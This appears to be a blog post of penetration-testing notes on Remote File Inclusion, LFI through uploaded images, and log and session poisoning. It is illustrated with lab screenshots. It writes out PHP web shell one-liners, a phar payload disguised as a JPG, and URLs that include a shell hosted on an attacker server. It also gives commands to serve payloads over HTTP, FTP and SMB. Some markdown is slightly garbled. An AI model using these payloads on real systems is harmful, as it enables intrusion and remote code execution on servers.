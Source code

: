 ```yaml
---
title: Remote File Inclusion (RFI)
date: 2024-02-12 20:00 
categories: [File Inclusion]
tags: [SMB, RFI, RCE, PHP, FTP, Reverse Shell]
author: jamarapo
---
```




Remote File Inclusion (RFI) is an exploitation technique where a vulnerable function allows the inclusion of remote URLs. This can lead to significant security risks, including remote code execution. Here's a detailed overview of RFI and how it can be exploited:

## Introduction
RFI is the ability to include remote files via vulnerable functions.

    While similar to Local File Inclusion (LFI), RFI involves remote URLs.
    Exploiting RFI allows attackers to execute malicious code remotely.

Distinguishing RFI:

    Vulnerable functions like include() in PHP permit RFI if not properly secured.
    RFI vulnerabilities can exist independently or alongside LFI.

Identification and Verification:

    Check for RFI by attempting to include a remote URL.
    Confirm RFI vulnerability by observing successful inclusion of remote content.

## Exploitation Techniques
### HTTP Exploitation:
Start an HTTP server hosting a malicious script. Include the script via a vulnerable RFI endpoint.
      

``` php
    sudo python3 -m http.server <LISTENING_PORT>
    [Include Remote Shell via HTTP]([http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id](http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id))
```
   
### FTP Exploitation
   Host the malicious script via FTP.
    Include the script using the FTP scheme in the URL.

````
    bash

    sudo python -m pyftpdlib -p 21
    [Include Remote Shell via FTP]([ftp://<OUR_IP>/shell.php&cmd=id](ftp://<OUR_IP>/shell.php&cmd=id))
````
### SMB Exploitation
Utilize the SMB protocol, especially effective on Windows servers.
   

``` bash
    impacket-smbserver -smb2support share $(pwd)
```

## Conclusion
RFI vulnerabilities pose serious security threats, enabling attackers to execute arbitrary code remotely. It's essential to understand the risks associated with RFI and implement robust security measures to mitigate these vulnerabilities effectively.


## Lab1

![alt text](/assets/img/posts/RFI/image.png)

![alt text](/assets/img/posts/RFI/image-1.png)

![alt text](/assets/img/posts/RFI/image-2.png)

![alt text](/assets/img/posts/RFI/image-3.png)


File upload functionalities are common in modern web applications, allowing users to upload data for profile configuration and other purposes. However, this feature can be exploited by attackers, especially in conjunction with vulnerabilities like Local File Inclusion (LFI).

The File Upload Attacks module explores various techniques for exploiting file upload functionalities. In this section, we focus on exploiting LFI through file uploads. Even if the file upload form itself is not vulnerable, simply allowing file uploads can enable attackers to execute code if the vulnerable function supports it.

## Key Points

  - Vulnerable functions like include() and include_once() in PHP allow executing code with file inclusion capabilities.
  - Attackers can upload seemingly harmless files, such as images containing PHP web shell code.
  -  Crafting a malicious image involves using allowed image extensions and including image magic bytes at the beginning of the file content to evade checks based on extension and content type.
  - Uploading the malicious image to the web application can potentially lead to remote code execution, especially if combined with an LFI vulnerability.

Important Functions for Code Execution:

    PHP: include(), include_once(), require(), require_once()
    NodeJS: res.render()
    Java: import
    .NET: include

## Crafting Malicious Image

The first step involves creating a malicious image file containing PHP web shell code, disguised as a legitimate image. This involves using an allowed image extension (e.g., .gif) and including image magic bytes at the beginning of the file content.

Note: While GIF images are used in this example due to their ASCII-based magic bytes, this technique can be applied to any allowed image or file type.

Once we have been uploaded an image, we can inspect the code and we expect this 
``` html
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```

With this URL excutes reverse shell using a GIF file.
```
/index.php?language=./profile_images/shell.gif&cmd=id
```
We can utilize the zip wrapper to execute PHP code. This wrapper not only is activated.

```
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```
We can use phan wrapper to obtain the same result.
```
 <?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

```
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

```
/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```



## Lab 2
![alt text](/assets/img/posts/RFI/image1.png)

![alt text](/assets/img/posts/RFI/image-1-1.png)

![alt text](/assets/img/posts/RFI/image-2-1.png)

In linux to look for .txt files we can use:
```
find / -type f -name "*.txt"
```

![alt text](/assets/img/posts/RFI/image-3-1.png)

## Log poisoning

Log poisoning exploits vulnerabilities in web applications to inject PHP code into log files, leading to the execution of this code when the log files are included. The key concept involves injecting PHP code into fields we control, which is then logged and subsequently executed upon inclusion.


### PHP Session Poisoning

PHP web applications often use PHPSESSID cookies to store user-related data, typically in session files located at /var/lib/php/sessions/ on Linux. By manipulating these session files, we can control and inject PHP code.

    Check PHPSESSID cookie value.
    Include session file through LFI vulnerability.
    Manipulate session data to execute PHP code.
    Write PHP web shell into session file.
    Execute commands via inclusion of session file.

### Server Log Poisoning

Apache and Nginx maintain log files such as access.log, which include details of requests, including the User-Agent header. By poisoning these logs with controlled User-Agent headers, we can execute injected PHP code.

Access and poison logs via LFI vulnerability.
Modify User-Agent header using Burp Suite or cURL.
    Execute commands via inclusion of poisoned logs.
    Consider alternative log locations like /proc/ for additional exploitation opportunities.

Log poisoning extends beyond Apache and Nginx logs, potentially impacting other service logs such as /var/log/sshd.log, /var/log/mail, and /var/log/vsftpd.log. Exploitability depends on read access and the presence of controllable parameters.


## Lab 3

![alt text](/assets/img/posts/RFI/image-5.png)

![alt text](/assets/img/posts/RFI/image-4.png)

![alt text](/assets/img/posts/RFI/image-6.png)

![alt text](/assets/img/posts/RFI/image-8.png)

![alt text](/assets/img/posts/RFI/image-7.png)

![alt text](/assets/img/posts/RFI/image-9.png)

![alt text](/assets/img/posts/RFI/image-10.png)
